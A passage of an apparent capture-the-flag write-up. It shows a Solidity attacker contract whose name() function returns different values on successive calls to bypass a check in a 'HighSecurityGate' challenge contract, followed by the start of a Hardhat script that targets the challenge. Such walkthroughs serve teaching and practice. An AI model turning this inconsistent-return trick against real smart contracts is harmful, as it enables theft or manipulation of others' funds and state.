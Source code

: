 ```python

  bool isFirstCall = true;

  function name() external returns (string memory) {

    if (isFirstCall) {
        isFirstCall = false;
        return "Nova";
    } else {
        return "Pandora";
    }
}

  function enterCall() external {
    (bool success,) = address(TargetContract).call(
            abi.encodeWithSignature("enter()")
        );
    require(success, "call to target contract failed");
  }
}
```
In this `Hecker` contract, we use same interface as in the `HighSecurityGate` contract. Then, `TargetContract` is defined which is the address of the deployed
`HighSecurityGate` contract. I defined `bool isFirstCall = true` which is used to modify condition in `if-else` block later to return different values for `name()` function call. Then, `name()` function is defined which checks if `isFirstcall` is true, and thus returns `Nova` in the first call which passes the `require()` check. After that, when `name()` function is called again while setting the value of `lastEntrant` variable, this function returns `Pandora`. It sets the value of `lastEntrant` to `Pandora`.Finally, the call to the target contract is done within `enterCall()` function which makes call to the target contract using `call()` function.

# Javascript code to interact, deploy, and call the functions:
```javascript
const { ethers } = require("hardhat");

async function main() {

    // Get deployer account
    const [deployer] = await ethers.getSigners();

    // Deployer's Balance
    console.log('Interacting with the account: ' + deployer.address);
    console.log("Account balance:", (await deployer.getBalance()).toString());

    // Access Setup contract
    const Setup = "0xb7771807BA9845F52FeB155bf812F49c3c40F5b2";
    const setup = await ethers.getContractAt("Setup", Setup);
    console.log( "Setup Contract Address: " + Setup);

    // Access HighSecurityGate contract
    const HighSecurityGate = "0x50067D3BB09E1E7130e19D8876be00D16cBB7dfF";
    const highsecuritygate = await ethers.getContractAt("HighSecurityGate", HighSecurityGate);
    console.log( "HighSecurityGate Contract Address: " + HighSecurityGate);

    // Before attack
    last = await highsecuritygate.lastEntrant()
    console.log("Last Entrant Value = ", last);

    // Call solved function
    solved = await setup.isSolved();
    console.log("Is Solved: " + solved);
```